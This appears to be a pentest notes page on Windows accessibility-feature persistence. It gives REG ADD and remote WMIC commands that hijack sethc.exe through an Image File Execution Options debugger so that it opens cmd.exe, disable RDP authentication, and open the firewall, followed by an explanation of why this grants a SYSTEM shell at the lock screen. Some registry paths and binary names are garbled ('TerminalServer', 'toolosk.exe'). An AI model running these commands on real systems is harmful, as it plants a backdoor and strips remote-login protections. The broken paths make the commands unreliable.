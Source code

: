 ### Sticky Keys persistence

* Take advantage of the sticky key functionality to replace the sticket key exe with a shell
* Done by changing registry settings
  * \>REG ADD “HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe” /V Debugger /t REG\_SZ /d “C:\windows\system32\cmd.exe”
  * \>REG ADD “HKLM\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp” /v UserAuthentication /t REG\_DWORD /d 0
  * \>REG ADD “HKLM\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp” /v SecurityLayer /t REG\_DWORD /d 0
* Might also need to add
  * \>netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
  * \>REG ADD “HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer” /v fDenyTSConnections /t REG\_DWORD /d 0 /f
* Performing the above via WMIC
  * \>wmic /user:\[username] /password:\[password] /node:\[server] process call create “C:\Windows\system32\reg.exe ADD “HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe” /v Debugger /t REG\_SZ /d \ “C:\windows\system32\cmd.exe\” /f”
  * \>wmic /user:\[username] /password:\[password] /node:\[server] process call create “C:\Windows\system32\reg.exe ADD “HKLM\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp\” /v UserAuthentication /t REG\_DWORD /d 0 /f"
  * \>wmic /user:\[username] /password:\[password] /node:\[server] process call create “C:\Windows\system32\reg.exe REG ADD “HKLM\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp\” /v SecurityLayer /t REG\_DWORD /d 0 /f"
* If using kerberos, we can replace the username and password with /authority:"Kerberos:\[Domain]\\\[Server]"

### Windows Accessibility features

* One common, low-skill method of achieving persistence is replacing the Windows accessibility features’ binary files with their own malicious binary or simply a renamed copy of Windows ‘cmd.exe’.
* When a user tries to use the accessibility features, for example sticky keys, they will execute the ‘sethc.exe’ binary, which the attacker may have replaced with 'cmd.exe'. The result is that the user will be presented with a Windows command prompt.
* Due to the Windows accessibility features being available from the lock screen of desktops and servers, they can be triggered without any credentials; and due to no user being logged into the machine, Windows has no concept of who should be triggering the binary. As such, the malicious binary will run under the context of the SYSTEM account. Desktops and servers which have RDP enabled increase the risk of an attacker being able to remotely trigger the persistence mechanism.
* The binaries for the accessibility features can be found in C:\Windows\System32\\
  * `sethc.exe – Sticky Keys`\
    &#x20;`◇ Magnify.exe – Magnifier`\
    &#x20;`◇ toolosk.exe – On-Screen Keyboard`\
    &#x20;`◇ Narrator.exe – Narrator`\
    &#x20;`◇ DisplaySwitch.exe – Display Switcher`\
    &#x20;`◇ AtBroker.exe – App Switcher`
* The Image File Execution Option (IFEO) function allows for adding a debugging key into the registry, which causes the debugging binary to be executed when the target is launched.
  * `SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<Target binary>`
  * This registry entry then adds string values (REG\_SZ) called ‘Debugger’, with a value which contains the path and binary name, i.e ‘C:\Users\Administrator\Malware.exe’
